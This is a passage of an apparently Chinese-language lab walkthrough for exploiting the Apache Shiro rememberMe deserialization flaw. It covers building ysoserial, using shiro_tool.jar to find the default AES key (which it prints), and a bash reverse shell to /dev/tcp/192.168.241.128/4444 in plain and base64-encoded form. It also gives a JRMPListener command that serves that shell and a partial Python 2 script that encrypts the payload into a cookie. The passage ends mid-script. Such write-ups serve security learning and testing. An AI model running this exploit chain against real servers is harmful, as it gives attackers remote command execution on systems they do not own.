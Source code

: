    安装过程：

   ```
   git clone https://github.com/frohoff/ysoserial.git
   cd ysoserial
   mvn package -D skipTests 	//需要安装maven才能使用mvn命令
   ```

2. **shiro_tool.jar**

   集成化工具，下载地址为`https://toolaffix.oss-cn-beijing.aliyuncs.com/shiro_tool.jar`。

   可用于获取目标IP的shiro中是否存在默认的AES密钥。命令如下：

   ```
   java -jar shiro_tool.jar http://192.168.241.129:8080
   ```

   ![image-20220813135453985](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220813135453985.png)

   ```
   kPH+bIxk5D2deZiIxcaaaA==
   ```

#### 漏洞利用

- **测试**能否使用rememberMe字段

  使用burp抓取当前页面数据包，在cookie中添加rememberMe=1。若响应包中显示Set-Cookie: rememberMe=deleteMe，说明存在shiro框架，可能存在漏洞。

  ![image-20220813135630795](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220813135630795.png)

- **监听并构造反弹shell**

  通过 **ysoserial** 中的 JRMP 监听模块，监听4444端口并执行反弹shell命令。

  反弹shell命令：

  ```shell
  bash -i >& /dev/tcp/192.168.241.128/4444 0>&1   //需要base64编码，在线编码http://www.jackson-t.ca/runtime-exec-payloads.html
  
  bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0MS4xMjgvNDQ0NCAwPiYx==}|{base64,-d}|{bash,-i}
  ```

  ```shell
  java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0MS4xMjgvNDQ0NCAwPiYx==}|{base64,-d}|{bash,-i}'
  ```

  单引号中的就是要执行的命令

- **构造payload**

  利用检测出的AES密钥，生成payload:

  ```python
  # python2
  
  import sys
  import uuid
  import base64
  import subprocess
  from Crypto.Cipher import AES
  
  def encode_rememberme(command):   # shellcode
      popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
      BS = AES.block_size
      pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
      key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")  # AES密钥
      iv = uuid.uuid4().bytes
  ```